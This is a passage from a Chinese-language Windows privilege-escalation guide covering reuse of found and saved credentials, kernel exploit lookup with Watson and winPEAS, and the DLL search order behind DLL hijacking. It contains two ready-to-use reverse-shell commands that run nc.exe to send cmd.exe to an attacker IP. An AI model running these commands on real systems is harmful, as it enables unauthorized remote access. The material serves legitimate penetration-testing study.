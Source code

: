 ![](img/1c07556f8db03cefd15480d4adb7f2ff.png)

既然你已经找到了密码，你会用它做什么呢？如果 RDP 是可访问的，并且用户在`Remote Desktop Users`组中，那就太好了。否则，您可以使用下面的 PowerShell 脚本以该用户的身份运行命令。

```
$secpasswd = ConvertTo-SecureString "password321" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("john", $secpasswd)
$computer = "GHOST"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","192.168.0.114 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

如果`cmdkey /list`返回条目，这意味着你可以以某个用户的身份运行，这个用户在 windows 中存储了他的凭证。

```
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"
```

## Windows 内核开发

如果操作系统定期更新，那么这些漏洞不会有太大的帮助。您可以使用 Watson 来检查由于缺少补丁而导致的漏洞。沃森已经和 winPEAS 整合了。如果你发现任何漏洞，你可以从下面的库下载。确保为您的目标下载正确的架构。如果你需要编译二进制文件，你可以使用 Kali 进行交叉编译。

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

## DLL 劫持

windows 程序在启动时会寻找 dll。如果这些 DLL 不存在，则有可能通过在应用程序寻找的位置放置恶意 DLL 来提升权限。

通常，Windows 应用程序会使用预定义的搜索路径来查找 DLL，并且会以特定的顺序检查这些路径。

1.应用程序加载的目录
2。32 位系统目录(C:\Windows\System32)
3。16 位系统目录(C:\Windows\System)
4。Windows 目录(C:\Windows)
5。当前工作目录(CWD)
6。PATH 环境变量中的目录(首先是系统，然后是用户)
